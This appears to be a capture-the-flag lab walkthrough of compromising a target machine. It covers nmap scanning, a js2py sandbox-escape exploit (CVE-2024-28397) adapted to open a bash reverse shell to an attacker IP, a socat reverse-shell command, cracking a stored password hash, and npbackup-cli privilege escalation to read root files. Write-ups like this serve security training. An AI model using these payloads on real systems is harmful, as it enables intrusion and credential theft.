 ![](images/image0.png)

# **Target Machine Walkthrough**

This report documents the full exploitation process of the target machine, structured in a professional **penetration testing style walkthrough**. It covers reconnaissance, enumeration, exploitation, credential access, lateral movement, privilege escalation, and flag capture.

## **🔍 Reconnaissance**

We begin with a full TCP port scan using **Nmap**:

```
nmap -p- -Pn 10.129.237.227 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && \
sleep 5 && nmap -Pn 10.129.237.227 -sC -sV -v -oN nmap_sVsC.txt && \
sleep 5 && nmap -T5 -Pn 10.129.237.227 -v --script vuln -oN nmap_vuln.txt
```

![](images/image2.png)

## **📦 Application Enumeration**

[![](images/image11.png)](https://github.com/Ma*rven11/CVE-2024-28397-js2py-Sandbox-Escape)

We discover a `/download` endpoint allowing us to retrieve `app.zip`. After extraction:

```
unzip app.zip
cd app
cat app.py
```

![](images/image13.png)

Checking the dependencies in `requirements.txt`:

![](images/image8.png)

## **⚡ Exploitation – CVE-2024-28397 (js2py Sandbox Escape)**

The application leverages `js2py`, which is vulnerable to a sandbox escape (CVE-2024-28397). Reference: [GitHub – CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

We adapt the PoC exploit to achieve a reverse shell:

```
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.15.30/4445 0>&1'"

let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for (let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if (item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n1
```

![](images/image14.png)

## **🖥️ Reverse Shell & Stabilization**

Successful reverse shell connection established:

![](images/image6.png)

We stabilize the shell using socat:

```
chmod +x socatx4.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

![](images/image4.png)

## **🗄️ Database Discovery**

Inside the `instance` folder we discover a SQLite database:

![](images/image7.png)

The database contains user password hashes:

![](images/image9.png)

Identifying the hash format:

![](images/image5.png)

We successfully crack `marco’s` password hash:

![](images/image15.png)

## **👤 User Access**

We log in as `marco` with the cracked credentials

![](images/image12.png)

We obtain the `user flag` from Marco’s desktop

## **🔝 Privilege Escalation – npbackup-cli**

We identify a privilege escalation vector via `npbackup-cli`. Reference: [npbackup-cli PrivEsc](https://github.com/AliElKhatteb/npbackup-cli-priv-escalation)

![](images/image1.png)

We modify the exploit (line 11):

![](images/image10.png)

Transferred to the host and executed:

![](images/image3.png)

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --backup
```

Finally, we dump the `root flag`:

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump /root/root.txt --snapshot-id a42c804d
```

## **🏁 Results & Conclusion**

**Attack Path:**

* **Recon** → Identified `/download` endpoint.  
* **Enumeration** → Found `js2py` vulnerable.  
* **Exploitation** → CVE-2024-28397 (reverse shell).  
* **Database Enumeration** → Extracted Marco’s hash, cracked credentials.  
* **Privilege Escalation** → npbackup-cli exploit → root access.  
* **Flags** → Obtained both `user.txt` and `root.txt`.

**Outcome:** Successful full compromise of the machine.
